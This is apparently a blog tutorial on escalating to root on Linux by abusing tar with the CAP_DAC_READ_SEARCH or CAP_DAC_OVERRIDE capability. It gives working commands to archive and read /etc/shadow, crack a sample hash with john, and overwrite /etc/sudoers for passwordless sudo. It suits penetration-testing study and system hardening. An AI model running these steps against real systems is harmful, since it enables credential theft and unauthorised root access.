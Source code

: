 ```yaml
---
layout: post
title: Abusing /tar capabilities to escalate privileges
date: 2023-05-13 00:12 +0000
comments: active
categories: [Privilege Escalation]
tags: [Privilege Escalation]
---
```


If ***/tar*** has the ***CAP_DAC_READ_SEARCH*** or ***CAP_DAC_OVERRIDE*** Linux capability set to the binary, it can be abused to escalate privileges to root. 

[Hack Tricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities){:target="_blank"}{:rel="noopener noreferrer"} does a good job at explaining how Linux capabilities works. Simply put, Linux capabilities provide a subset of the available root privileges to a process or binary. This is meant to reduce the attack surface of a system, but if it is not configured correctly it can lead to privilege escalation. 

## What is /tar?
/tar is a Linux binary installed by default on the majority of Nix based operating systems. It stands for '**Tape Archive'** and is used to create, extract and compress archives. You may be familiar with the file formats:

> `foo.tar` - Uncompressed data. Bundles together multiple files into an 'archive' or a 'tarball'. Can also be used to archive a single file.
{: .prompt-info }
> `foo.gz` - Compressed data. Can be used to compress a .tar file.
{: .prompt-info }
> `foo.tar.gz` - A compressed archive file.
{: .prompt-info }

To check if /tar is installed, you can run the following command:
```bash
which tar
```
>`/usr/bin/tar`

## Determining if /tar is vulnerable 
To check what capabilities are set to /tar, you can run the following command:
```bash
getcap /usr/bin/tar
```
If it is vulnerable, you will see one of the following:
>`/usr/bin/tar = cap_dac_read_search+ep`

>`/usr/bin/tar = cap_dac_override+ep`

## Privilege escalation process  
### CAP_DAC_READ_SEARCH Method
***CAP_DAC_READ_SEARCH*** allows binaries to bypass file read, and directory read and execute permissions. This means /tar can be used to access sensitive areas of an operating system as a normal user, such as the /etc/shadow file or the /root directory. To create an archive of the /etc/shadow file, you can run the following command:
```bash
tar -czf /tmp/shadow.tar.gz /etc/shadow
```

The /tar flags are important to understand:
> `-c` : Creates archive 

> `-z` : Compresses an archive with gzip

> `-f` : Designated file name

The file can then be decompressed and printed out to view the hashed passwords:
```bash
gzip -d /tmp/shadow.tar.gz 
cat /tmp/shadow.tar
```
```
root:$6$HbEKQFPH$5qqq6gXYJpsQpk0ZNGD1R/WClLPawMYLuL9Kn.PQE5W4grdRtoopgvgRJZs36A0a7Nwvi4L53B0yiSA.3Hq7k/:19171:0:99999:7::: 
bin:*:18353:0:99999:7:::
apache:!!:19171::::::
```
{: file="shadow.tar" }
Shadow hashes can be cracked with john, using the following command:
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
If the password is not too strong, the password may be cracked out:
![John cracking the Hash](/assets/img/screenshots/john_hash_cracked.png)
_The hashed password was cracked out to 'root'_

If the password is too strong, it may not be able to be cracked out with John. Enumerating the target machine for other sensitive areas which may contain files of interest could still assist with escalating privileges. This could include archiving the /root directory to search for things such as SSH keys, or archiving other applications which may store configuration files and passwords.

### CAP_DAC_OVERRIDE Method
***CAP_DAC_OVERRIDE*** gives the same rights to a binary as ***CAP_DAC_READ_SEARCH***, except it also means you can bypass write permission checks on any file, so you can write to any file. If the /tar binary has this capability set, all you need to do is use /tar to overwrite the /etc/sudoers file.

Begin by creating a file called 'sudoers' that gives sudo rights to your low privilege user:
```bash
echo "mr10 ALL=(ALL) NOPASSWD:ALL" > sudoers
```
Archive and compress the file:
```bash
tar -czf sudoers.tar.gz sudoers
```
Decompress the file:
```bash
gzip -d sudoers.tar.gz
```
Extract the archive file into the /etc directory:
```bash
tar -xf sudoers.tar --directory /etc/
```
Elevate your privileges to root:
```bash
sudo su
```
The same method can be used to update the /etc/passwd file or the /etc/shadow file, allowing you to update root passwords or other administrator accounts.

<br>

Happy Hacking,

Mr10 💎
